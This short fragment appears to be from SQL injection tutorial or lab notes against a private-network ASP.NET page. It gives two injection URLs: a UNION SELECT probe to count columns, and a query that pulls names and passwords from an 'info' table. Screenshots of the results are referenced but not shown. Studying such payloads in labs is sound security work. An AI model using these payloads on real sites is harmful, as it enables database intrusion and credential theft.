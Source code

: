 
```
http://192.168.130.137/1.aspx?id=1 union select 1,2,3

```

![mysql](./img/1.6.1.png)

```
http://192.168.130.137/1.aspx?id=1 union select null,name,pass from info

```

![mysql](./img/1.6.2.png)
